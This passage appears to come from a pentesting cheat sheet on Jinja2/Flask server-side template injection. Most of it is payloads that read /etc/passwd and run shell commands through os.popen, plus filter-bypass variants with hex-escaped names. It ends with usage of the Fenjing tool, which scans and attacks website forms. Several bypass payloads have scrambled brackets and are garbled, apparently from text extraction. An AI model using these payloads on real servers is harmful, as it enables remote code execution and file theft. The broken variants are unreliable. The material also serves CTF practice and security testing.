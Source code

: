 ```

# You can iterate through children objects to find more
```
```
Once you have found some functions you can recover the builtins with:

```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"][["os").popen("ls").read(|"__import__"]] }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"][["os").popen("ls").read(|"__import__"]] }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"][["os")["popen"]("ls")["read"](|"\x5f\x5fimport\x5f\x5f"]] %} {{ a }} {% endwith %}
{% endraw %}

## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
```
### Fuzzing WAF bypass

**Fenjing** [[https://github.com/Marven11/Fenjing|https://github.com/Marven11/Fenjing]] is a tool that its specialized on CTFs but can be also useful to bruteforce invalid params on a real scenario. The tool just spray words and queries to detect filters, searching for bypasses, and also provide a interactive console.

English-Chinese Google translation

```
webui:
As the name suggests, web UI
Default port 11451

scan: scan the entire website
Extract all forms from the website based on the form element and attack them
After the scan is successful, a simulated terminal will be provided or the given command will be executed.
Example:python -m fenjing scan --url 'http://xxx/'

crack: Attack a specific form
You need to specify the form's url, action (GET or POST) and all fields (such as 'name')
After a successful attack, a simulated terminal will also be provided or a given command will be executed.
Example:python -m fenjing crack --url 'http://xxx/' --method GET --inputs name
